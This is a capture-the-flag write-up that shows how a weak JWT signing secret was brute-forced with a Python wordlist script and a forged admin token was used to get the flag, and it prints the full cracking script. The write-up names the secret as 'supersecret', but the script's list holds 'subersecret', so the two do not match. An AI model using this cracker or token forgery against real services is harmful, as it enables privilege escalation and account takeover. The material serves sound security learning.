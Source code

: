 # Web | Just What you Think

### Coin: 100

**Link**: [https://ctf-1-vo9x.vercel.app/](https://ctf-1-vo9x.vercel.app/)

# Web | Just What you Think

### Coin: 100

**Link**: https://ctf-1-vo9x.vercel.app/

### Step 1: Registering an Account

- I started by registering a new account using the **register** functionality on the website.

### Step 2: Testing Admin Access

- I reviewed the admin functions after logging in
- The response was:
    
    `You are not admin.`
    
- This indicates that my current account does **not** have admin privileges.

### Step 3: Inspecting the JWT

- I captured the **JWT (JSON Web Token)** issued after logging in.
- Then, I decoded it using [jwt.io](http://jwt.io/).
- From the decoded payload, I observed that my role or privilege level was set to:`"role": "user"`

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image.png)

### Step 4: Analyzing the JWT Setup

To escalate privileges, I needed to analyze how the JWT was being signed.

- My goal was to determine if the JWT signature was using a **weak or common secret key**.
- I suspected that the application might be signing tokens using a predictable or default key.

### Step 5: Brute-Forcing the Secret Key

- I used a Python script to brute-force the JWT secret using a wordlist of common/default secrets.
- You can find the script I used here: [python code with the top 100  default secrets including the one in the challenge `subersecret`](https://www.notion.so/python-code-with-the-top-100-default-secrets-including-the-one-in-the-challenge-subersecret-24ca4a579e0d802e9a53ea9bcb6dc889?pvs=21)
- After running the script, I discovered that the JWT secret key is:`supersecret`
- 


![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%201.png)

then i verified it on jwt.io:

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%202.png)

then in JWT Encoder i changed the role to admin using the secret key:

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%203.png)

then i set the new token 

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%204.png)

and it works i could change my role from user to admin and use the admin funtionality and got the flag

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%205.png)

- python code with the top 100  default secrets including the one in the challenge `subersecret`
    
    ```jsx
    import jwt
    
    """
    JWT secret key bruteforce
    """
    
    # JWT Token to decode
    token = input('Enter the Token: ')
    
    # List of common secrets to try
    secrets = [
        "secret", "password", "admin", "123456", "letmein", 
        "changeme", "qwerty", "abcdef", "test", "jwtsecret",
        "admin123", "mysecret", "welcome", "123123", "1q2w3e4r", 
        "123qwe", "root", "toor", "letmein123", "password123", 
        "password1", "iloveyou", "monkey", "sunshine", "football", 
        "1234", "princess", "qwerty123", "12345", "123abc", 
        "hello", "welcome123", "123qaz", "adminadmin", "trustno1", 
        "trustnoone", "shadow", "master", "guest", "god", "test123",
        "hunter2", "admin1234", "changeme123", "p@ssw0rd", 
        "letmein1234", "welcome1", "passw0rd", "root123", "p@ssword", 
        "qwertyuiop", "monkey123", "iloveyou123", "12345qwerty", "abc123", 
        "qwertyui", "password321", "secret123", "abcd1234", "1234qwerty", 
        "1qaz2wsx", "qazwsx", "1qazXSW@", "myadmin", "letmeinqwerty", 
        "hello123", "admin12345", "12345admin", "welcome12345", "qwerty12",
        "letmeinqwerty123", "y0u45ecreT", "s3cret", "p4ssword", "secretkey", 
        "forbidden", "getoverit", "password111", "1234root", "god123", 
        "access123", "passphrase", "mysupersecret", "iloveyou1", "secure123", 
        "abcde12345", "password!123", "12345letmein", "12345secret", "asdfgh", 
        "pass123", "fakepassword", "thisispassword", "ilovepassword", "1234test",
        "secretpassword", "user123", "123456789", "welcome12345", "subersecret"
    ]
    
    # Try each secret
    for secret in secrets:
        try:
            # Attempt to decode the token with the current secret
            decoded = jwt.decode(token, secret, algorithms=['HS256'])
            print(f"[+] Success! \n[+] Secret: {secret} -> Payload: {decoded}")
            break  # Exit once the valid secret is found
        except jwt.ExpiredSignatureError:
            print(f"Expired signature, secret: {secret}")
        except jwt.InvalidTokenError:
            pass  # Ignore invalid token errors
    ```
